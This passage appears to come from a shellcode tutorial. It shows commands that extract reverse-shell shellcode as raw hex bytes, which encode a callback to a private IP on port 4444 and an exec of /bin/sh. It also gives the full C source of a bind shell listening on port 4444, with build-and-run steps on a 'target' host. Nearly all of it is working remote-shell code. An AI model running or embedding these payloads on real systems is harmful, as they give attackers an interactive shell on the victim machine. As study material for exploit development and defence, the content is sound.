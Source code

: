 Extract the shellcode for later.

```
$ objcopy -O binary reverse-shell.o reverse-shell.bin

$ hexdump -v -e '"\\\x" 1/1 "%02x"' reverse-shell.bin ; echo
\x01\x10\x8f\xe2\x11\xff\x2f\xe1\x0e\xa0\x52\x40\x42\x70\xc2\x73\x02\x20\x01\x21\xc8\x27\x51\x37\x01\xdf\x04\x1c\x20\x1c\x09\xa1\x10\x22\x02\x37\x01\xdf\x20\x1c\x49\x40\x3f\x27\x01\xdf\x20\x1c\x01\x21\x01\xdf\x20\x1c\x02\x21\x01\xdf\x04\xa0\x49\x40\x52\x40\x0b\x27\x01\xdf\x02\xff\x11\x5c\xc0\xa8\x0a\x0c\x2f\x62\x69\x6e\x2f\x73\x68\x41


```

The **bind-shell** example is longer, but does not involve anything new.

Here is the C version

```
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main()
{
    struct sockaddr_in sa;

    sa.sin_family = AF_INET;
    sa.sin_port = htons(4444);
    sa.sin_addr.s_addr = htonl(INADDR_ANY);

    int ssock = socket(PF_INET, SOCK_STREAM, 0);

    bind(ssock, (struct sockaddr*) &sa, sizeof(sa));

    listen(ssock, 1);

    int csock = accept(ssock, NULL, NULL);

    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    execve("/bin/sh", NULL, NULL);

    return 0;
}


```

Build and run

```
target:$ gcc bindshell.c -o bindshell
target:$ ./bindshell


```
